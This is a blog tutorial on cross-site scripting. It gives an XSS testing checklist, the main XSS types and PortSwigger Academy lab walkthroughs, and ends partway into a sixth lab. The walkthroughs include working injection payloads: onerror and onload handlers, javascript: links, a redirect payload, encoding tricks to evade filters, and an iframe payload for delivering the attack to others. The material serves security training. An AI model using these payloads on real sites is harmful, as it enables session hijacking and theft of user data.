 ```yaml
---
layout: post
title: XSS (Cross site scripting)
subtitle: Victim visit malicious URL/site to trigger the payload made of JavaScript. Causing their session to be controlled or data to be stolen
date: 2025-09-15 19:15
author: Ren Sie
comments: true
category: script-input
thumbnail-img: /assets/img/githubpost/xxs_thumb.png
---
```


Cross-site scripting (XSS) is a web security flaw where attackers inject malicious scripts into trusted websites, which then execute in the browsers of unsuspecting users. This exploitation allows attackers to steal sensitive data, hijack user sessions, or manipulate website content by taking advantage of web applications that do not properly validate or sanitize user input.



{: .box-note}
**Note:** 💡 During the testing, use `print()` `prompt("text")` instead of `alert()` since `alert()` is commonly detected and filtered. <br> When testing for XXS, test for html injection first because it’s more likely to work
E.g., \<h1\>test\</h1\>

### Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  

1. **Is input reflected in the response?**

2. **Can we inject HTML?**
   - E.g., `https[://]victim[.]com/search?user=<img src=x onerror=prompt("XSS")>`
    
3. **Any weaknesses in the Content Security Policy (CSP)?**
   - Use of unsafe directives which allow execution of inline scripts or eval() functions, bypassing CSP protections. <br> E.g.,`Content-Security-Policy: script-src 'self' 'unsafe-inline' 'unsafe-eval';`
   - Allowing broad sources or wildcards in directives (e.g., script-src), which permits potentially untrusted external scripts to run. <br> E.g., `Content-Security-Policy: script-src *;`
   - Inclusion of compromised or vulnerable third-party domains in trusted sources, such as JSONP endpoints that can be exploited to inject malicious scripts. <br> E.g., `https[://]third-party_domain[.]com/jsonp?callback=prompt("xss is available!")`
   - Omitting strict directives for resources like object-src or failing to restrict nonces and hashes properly which can allow script injection.
   - Weak or predictable nonces (e.g., 'nonce-12345') that attackers can guess or reproduce to bypass CSP restrictions.
 
4. **Can we use events (e.g. onload, onerror)?**
   - `<body onload="prompt('XSS via onload!')"> Welcome to the website! </body>`
   - `<a href="https[://]trusted[.]com/search?user=<img src=x onerror=prompt("XXS Available")>"> Click me! </a>`

5. **Are there any filtered or escaped characters?**
   - E.g., `<`, `>`, `"`, `'`, `javascript:`, `alert()`
   - Refer to [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

6. **Is input stored and then later rendered?**

7. **Can we inject into non-changing values (e.g. usernames, comments, etc.)?**
   - E.g., web application allows user input and stores them without proper sanitization.

8. **Any input collected from a third party (e.g. account information)?**
   - Third-party inputs refer to any data or content that comes from an external source (via third-party api) or from other users.

9. Is the version of the framework or dependency vulnerable?
   - [OWASP Dependency-Check](https://github.com/dependency-check/DependencyCheck)
   - [OWASP Dependency-Check Installation and Scanning First project](https://www.youtube.com/watch?v=hWiI700y3J0)

</details>

### Reflected XXS
Inject payload into the HTTP request. And once the web server receive the request, it will response with the payload to sender’s browser. It relies on URL to make user fall for the attack.

### Dom-Based XXS
Client-side has vulnerable JavaScript. It doesn’t involve with the server-side, completely rely on client’s browser to execute the payload.
One quick check is turn on the developer tool, input and execute a simple prompt or alert script, see if there’s any network interaction with the server.

{: .box-note}
**Note:** 🚨 Inspecting Network page in the developer tab while sending input. If there’s no external communication happens, it indicates it is Dom-Based XXS.

#### Page Redirect
User could inject the following code into a vulnerable website, causing an automatic redirect to a malicious site. When a victim loads the page with this injected script, they will be automatically redirected to <$url>.
~~~
src=x onerror="window.location.href='<$url>'"
~~~

#### HTML Events
<details markdown="1">
<summary>Click me to reveal the chart of HTML events</summary>

| Event | Trigger Condition | Elements | Notes |
| :------ | :------ | :------ | :------ |
| onmouseover | When mouse pointer moves over an element | Most HTML elements including input | Used for hover interaction |
| onmouseout | When mouse pointer leaves an element | Most HTML elements including input | |
| onmousedown | When mouse button pressed over an element | Most elements | |
| onmouseup | When mouse button released over an element | Most elements | |
| onclick | When user clicks on an element | Most elements | Commonly used event |
| onfocus | When element receives focus (tab, click, or programmatic) | Input, textarea, select | Particularly useful for inputs |
| onblur | When element loses focus | Input, textarea, select | |
| onchange | When element's value is changed and the control loses focus | Input, select, textarea | Fires after commit of the change |
| oninput | When the user modifies the value | Input, textarea | Fires immediately as value changes |
| onerror | When loading of resource fails | img, script, iframe, media tags | Does not fire on input elements |
| onload | When resource loads successfully | body, img, iframe, script, media | Does not fire on input elements |
| onsubmit | When form is submitted | form element | |
| onkeydown | When a key is pressed | Most elements | |
| onkeyup | When a key is released | Most elements | |
  
</details>


### Store
Payload is stored in the database, and victim’s browser will retrieve it once it visit the page. For instance:  
1. In the attacker’s browser leave html injection comment: \<h1\>test\</h1\>.
2. Visit the same page from victim’s browser

![store_xxs.png](/assets/img/githubpost/xxs_1.png)

### Labs
Just for demostration, I completed a few labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

#### 1. DOM-based XSS in document.write sink using source location.search
The target application use `document.write()` function to display content from `location.search`, which comes from the URL query string. Allows users to modify the URL, and to inject and execute arbitrary scripts in the page.
<details markdown="1">
  <summary>Click me to expand the process</summary>  
1. Enter random input (e.g., 123456) in the user input (URL query)
~~~
https[://]web-security-academy.net/?search=123456
~~~

2. Right-click on the webpage and open the inspection tab

3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
~~~
Result: <img src="/resources/images/tracker[.]gif?searchTerms=123456">
~~~

4. After knowing the syntax. We can add a closing angle bracket to close up the img tag, and add a new tag with the payload. I use HTML encoding to bypass the filter.
~~~
URL: "><script src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041"></script>
Result: <img src="/resources/images/tracker[.]gif?searchTerms=">
        <script src="x" onerror="javascript:alert('XSS')"></script>
~~~
</details>

#### 2. DOM XSS in innerHTML sink using source location.search
The application It assigns data from `location.search` to `innerHTML`, which updates the contents of a `<div>`. Since the URL can be controlled by the user, they can inject malicious HTML or scripts.
<details markdown="1">
  <summary>Click me to expand the process</summary>  
1. Enter random input (e.g., 123456) in the user input (URL query)
~~~
https[://]web-security-academy.net/?search=123456
~~~
  
2. Right-click on the webpage and open the inspection tab

3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
~~~
Result: <span id="searchMessage">123456</span>
~~~

4. After knowing the syntax. I can add a closing tag to close up `<span>`, and add a new `<img>` tag with the payload. I use HTML encoding to bypass the filter.
~~~
URL: https[://]web-security-academy[.]net/?search=</span><img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
Result: <span id="searchMessage"><img src="x" onerror="javascript:alert('XSS')"></span> <span>'</span> == $0
~~~
</details>

#### 3. DOM XSS in jQuery anchor href attribute sink using location.search source
In this instance, jQuery’s `$` selector is used to find a link and set its `href` using data from `location.search`, which comes from the URL query string.
<details markdown="1">
  <summary>Click me to expand the process</summary>
1. Right-click on the webpage and open the inspection tab. I search for `location.search`, which led me to this script:
>  $(function() {  
>      $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));  
>      });
  
2. I also notice that the URL contains the `returnPath` query parameter, which aligns with the script. Which uses this query parameter to set the href attribute of the backlink.
~~~
URL: https[://]web-security-academy[.]net/feedback?returnPath=/
~~~

3. Insert the payload into the `returnPath` query parameter.
~~~
URL: https[://]web-security-academy[.]net/feedback?returnPath=javascript:prompt(document.cookie)
Result: <a id="backLink" href="javascript:prompt(document.cookie)">Back</a>
~~~
</details>

#### 4. Stored XSS into anchor href attribute with double quotes HTML-encoded
This instance contains a stored XSS vulnerability in the comment section. I submit a comment that triggers an alert when the author’s name is clicked.
<details markdown="1">
  <summary>Click me to expand the process</summary>
1. In the comment section, there are four fields (Comment, Name, Email, Website). After filling out all the fields and submitting my comment, I notice that the Name section contains an external link, which is the website I enter while filling out the form.

2. I use the search function in the inspection tab to look for the website I enter. And I find:
~~~
Result: <a id="author" href="Website.com">Name</a>
~~~

3. Now, I determine that the href attribute accepts user input, so I enter a simple payload into the Website field. It is confirmed that the alert will be triggered when I click on the Name.
~~~
Website: javascript:alert('Zebra!')
Result: <a id="author" href="javascript:alert('Zebra!')">World Smartest Zebra</a>
~~~
</details>

#### 5. Reflected XSS into attribute with angle brackets HTML-encoded
The application contains a reflected XSS vulnerability in the search blog feature, where angle brackets are HTML-encoded. I inject an attribute via XSS that triggers an alert function.
<details markdown="1">
  <summary>Click me to expand the process</summary>
1. Enter random input (e.g., test123) in the user input (URL query)
~~~
URL: https[://]web-security-academy[.]net/?search=test123
~~~

2. Utilize search function in inspection tab, and search for input (e.g., test123)
~~~
Result: <input type="text" placeholder="Search the blog..." name="search" value="test123">
~~~

3. After learning that our input is within a double-quoted attribute, we can try to bypass the double-quoted attributes by breaking out of the attribute value with the injection of double quotes or equivalent encodings, and then adding the HTML events that triggers the payload.
~~~
URL: https[://]web-security-academy[.]net/?search=test123" onmouseover="alert(test)
Result: <input type="text" placeholder="Search the blog..." name="search" value="test123" onmouseover="alert(test)">
~~~
{: .box-note}
**Note:** The `value` attribute is closed early by the injected quote, and `onmouseover="alert(1)` is interpreted as a new `onmouseover` attribute on the <input> tag.

4. Once I hover the cursor over the search bar, it triggers the alert. I identify the XSS vulnerability.
</details>

#### 5. DOM XSS in jQuery selector sink using a hashchange event
There is a DOM-based XSS vulnerability on the home page, where jQuery’s `$()` selector is used to auto-scroll to a post, with the title passed through `location.hash`.
<details markdown="1">
  <summary>Click me to expand the process</summary>
1. Firstly, I search for `$()` in the inspection tab, and I find the syntax for this function. Which listens for hash changes in the URL (`/#`) and scrolls the corresponding blog post into view based on the hash value.
>  $(window).on('hashchange', function(){  
>    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');  
>    if (post) post.get(0).scrollIntoView();  
>  });  
  
2. I append a simple XSS test payload with a hashtag to the URL, and the print function is triggered. The XSS vulnerability in this application is confirmed.
~~~
URL: https[://]web-security-academy[.]net/#<img src=x onerror=print()>
~~~

3. In the case that I want to deliver this payload to others, I utilize `iframe`, `onload`, `img src`, and `onerror` to trigger the payload once they open the page.
~~~
URL: <iframe src="https[://]web-security-academy[.]net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
~~~
{: .box-note}
**Note:** The `onload` attribute of the `iframe` runs JavaScript to append the print payload directly into the URL fragment after the page loads. The vulnerable page inside the iframe then reads this fragment (<img src=x onerror=print()>) and executes the injected payload.

</details>x

#### 6. Reflected XSS into a JavaScript string with angle brackets HTML encoded
In this instance, the application is vulnerable to reflected XSS in the search query tracking functionality, where angle brackets are encoded. The reflection occurs inside a JavaScript string. I breaks out of the JavaScript string and triggers the alert() function, to demonstrate the vulnerability.
